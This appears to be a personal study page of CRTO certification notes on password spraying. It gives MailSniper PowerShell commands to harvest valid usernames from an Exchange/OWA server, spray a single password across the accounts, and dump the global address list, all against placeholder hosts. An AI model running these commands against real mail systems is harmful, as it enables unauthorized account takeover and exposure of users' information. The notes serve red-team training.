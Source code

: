 # CRTO
Mi own notes to pass the CRTO

# Password Spraying

## Mail Sniper

Import the Module

```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Check the valid usernames

```
Invoke-UsernameHarvestOWA -ExchHostname mail.domain.local -Domain domain.local -UserList possible_users.txt -OutFile valid.txt
```

Password Spraying

```
Invoke-PasswordSprayOWA -ExchHostname mail.domain.local -UserList valid.txt -Password Password
```

Dump all email accounts

```
Get-GlobalAddressList -ExchHostname mail.domain.local -UserName domain.local\user -Password Password -OutFile users.txt
```

